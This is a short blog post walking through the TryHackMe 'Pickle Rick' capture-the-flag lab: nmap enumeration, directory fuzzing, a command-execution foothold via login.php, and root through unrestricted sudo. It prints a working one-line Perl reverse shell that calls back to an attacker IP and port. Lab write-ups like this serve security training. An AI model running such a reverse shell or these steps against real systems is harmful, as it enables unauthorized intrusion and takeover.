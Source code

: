```yaml
---
layout: post
title: 'TryHackMe | Pickle Rick'
permalink: /notes/thm/pickle-rick/
---
```


# Enumeration
We start a nmap at the IP.
{% highlight mysql %}
Nmap scan report for 10.10.253.214
Host is up (0.067s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f8:50:7b:e1:4c:53:63:5d:2b:c6:84:1a:66:e9:a0:04 (RSA)
|   256 19:a8:de:3e:70:d9:ba:ff:d5:2f:46:60:a2:e1:c3:e3 (ECDSA)
|_  256 70:de:54:34:34:75:c3:77:56:9e:00:b3:84:93:fe:97 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

We can do a curl to the webpage and get a user in the html:
{% highlight mysql %}
curl -i http://10.10.253.214/
{% endhighlight %}

We can try a fuzzer to the webpage:
{% highlight mysql %}
dirsearch -r -u http://10.10.253.214/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -e php,txt,html -f
{% endhighlight %}

# Explotation
We can get a **login.php** and access with the creds. We can see a command execution and try a reverse shell with perl:
{% highlight mysql %}
perl -e 'use Socket;$i="10.18.91.218";$p=9000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
{% endhighlight %}

# Privilege Escalation
If we list all the www-data privileges we can see that we can executed any code, so we can get root.
{% highlight mysql %}
> sudo -l
> sudo su
{% endhighlight %}
